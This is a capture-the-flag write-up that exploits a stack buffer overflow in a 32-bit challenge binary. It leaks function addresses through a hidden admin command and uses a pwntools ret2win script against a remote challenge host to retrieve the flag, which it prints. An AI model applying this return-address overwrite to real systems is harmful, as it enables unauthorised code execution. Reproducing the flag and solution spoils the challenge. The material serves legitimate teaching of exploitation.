



What you need to solve :
- Basic knowledge of c
- Basic knowledge of stack
- Basic ROP

---

Starting the challenge we were given a file we should check the file type first.

```sh
❯ file chall
chall: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=bd5221b68d53722605f69cbfe72f5b5a778ad8cf, for GNU/Linux 3.2.0, not stripped
❯ checksec chall
[*] '/home/renko/temp/csc/chall'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

So from the information above we can see that the ELF file is a 32bit elf thats not stripped, and there is PIE enabled which we have to keep that in mind.

But lets decompile the program first.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  time_t v3; // eax
  char s[100]; // [esp+0h] [ebp-6Ch] BYREF
  int *p_argc; // [esp+64h] [ebp-8h]

  p_argc = &argc;
  v3 = time(0);
  srand(v3);
  adminPass = rand() % 90000 + 10000;
  while ( 1 )
  {
    while ( 1 )
    {
      puts("Welcome to my HOLOLIVE fanbase");
      puts("The best fanbase ever created");
      puts("what do you want to do?");
      puts("1. Show profile");
      puts("2. List favourites");
      puts("3. List talents");
      puts("4. Watch a live");
      puts("5. Manage your account");
      puts("6. Exit");
      fgets(s, 100, stdin);
      if ( strcmp(s, "1\n") )
        break;
      showProfile();
    }
    if ( !strcmp(s, "6\n") )
      break;
    if ( !strcmp(s, "4\n") )
    {
      system("clear");
      printArt();
      getchar();
    }
    else if ( !strcmp(s, "2\n") )
    {
      printf("\n1. Kroni\n2. Biboo\n3. Fuwawa and Mococo");
      getchar();
    }
    else if ( !strcmp(s, "3\n") )
    {
      system("clear");
      puts("Hololive Talents:");
      puts("1. Tokino Sora");
      puts("2. Roboco-san");
      puts("3. Sakura Miko");
      puts("4. Hoshimachi Suisei");
      puts("5. Azuki Kiryu");
      puts("6. Inugami Korone");
      puts("7. Nekomata Okayu");
      puts("8. Usada Pekora");
      puts("9. Shiranui Flare");
      puts("10. Kiryuu Coco");
      puts("11. Amane Kanata");
      puts("12. Kiryu Coco");
      puts("13. Tsukumo Sana");
      puts("14. Mori Calliope");
      puts("15. Takanashi Kiara");
      puts("16. Ouro Kronii");
      puts("17. Nanashi Mumei");
      puts("18. Hakos Baelz");
      puts("19. Irys");
      puts("20. Michael Aurelio");
      getchar();
    }
    else if ( !strcmp(s, "5\n") )
    {
      manage_acc();
    }
    else if ( !strcmp(s, "adminBetaSecretCommand\n") )
    {
      printf("%p\n", list_all_password);
      printf("%p", admin_get_secret);
    }
  }
  return 0;
}
```

So there are 1 interesting function that is the `adminBetaSecretCommand` command, where this command will leak 2 addresses called `list_all_password` and `admin_get_secret`.

```c
int list_all_password()
{
  _BYTE v1[68]; // [esp+0h] [ebp-48h] BYREF

  puts("auric -> \"kronipleasenoticeme1\"");
  printf("admin -> \"%d\"\n", adminPass);
  return __isoc99_scanf("%s", v1);
}

int admin_get_secret()
{
  char s[256]; // [esp+8h] [ebp-110h] BYREF
  int v2; // [esp+108h] [ebp-10h] BYREF
  FILE *stream; // [esp+10Ch] [ebp-Ch]

  puts("Username : admin");
  puts("Password : ");
  __isoc99_scanf("%d", &v2);
  if ( v2 == adminPass )
  {
    stream = fopen("kronichiwa.hololive", "r");
    if ( fgets(s, 256, stream) )
      puts(s);
    fclose(stream);
  }
  getchar();
  return getchar();
}
```

So from this we already know the flow on getting the flag, that is first we need to get into `list_all_password()` to leak the admin password then go to `admin_get_secret()` to submit the admin password and get the flag.

But first we have to find a place thats vulnerable to ROP!

In the `5` choice we should check the decompiled code first.

```c
int manage_acc()
{
  _BYTE v1[68]; // [esp+0h] [ebp-48h] BYREF

  puts("Account manager BETA 1.0");
  puts("Change Username [still on BETA]");
  return __isoc99_scanf("%s", v1);
}
```

as you can see the `manage_acc()` is vulnerable to ROP because its using `scanf()` which will take user input no matter what until it sees a newline.

---

First we need to find the offset of the amount of bytes before the ret address in the function, i will be using cyclic to find the value.

```sh
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```



As you can see the value inside of ebp is `saaa` we can try to find which offset that is.

```sh
pwndbg> cyclic -l saaa
Finding cyclic pattern of 4 bytes: b'saaa' (hex: 0x73616161)
Found at offset 72
```

This tells us the offset of the ebp!

We can solve this already with all the information that we have.

```py
#!/usr/bin/env python3

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

TARGET = './chall'
# 46.202.163.245 38932
HOST = '46.202.163.245'
PORT = 38932

elf = ELF(TARGET)
#libc = ELF('./libc.so.6', checksec=True)
#ld = ELF('./ld-2.27.so', checksec=False)

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

#context.log_level = 'DEBUG'
gdb_script = f"""
    break *main
    b *manage_acc
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

# adminBetaSecretCommand

p.sendline(b'adminBetaSecretCommand')
p.recvuntil(b'6. Exit\n')
leak_1 = int(p.recvline()[:-1],16 )
leak_2 = int(p.recvline()[:10], 16)

print(f"leak1 {hex(leak_1)}") # list_all_passwd
print(f"leak2 {hex(leak_2)}") # admin_get_secret

jnk = b'A' * 68 + b'B' * 8 + p32(leak_1) + p32(leak_2)
p.sendline(b'5')
p.sendline(jnk)

p.interactive()

# NOTE:
# Ret2win
```

Solver Script by : Relster

Basicly in we can just rewrite 2 of the return address, first to read the admin password then go to the admin login.



Flag : CSC{Kronii_took_my_time_Fuwawa_and_Mococo_turn_me_into_a_giggling_mess_Biboo_is_my_ultimate_hype!}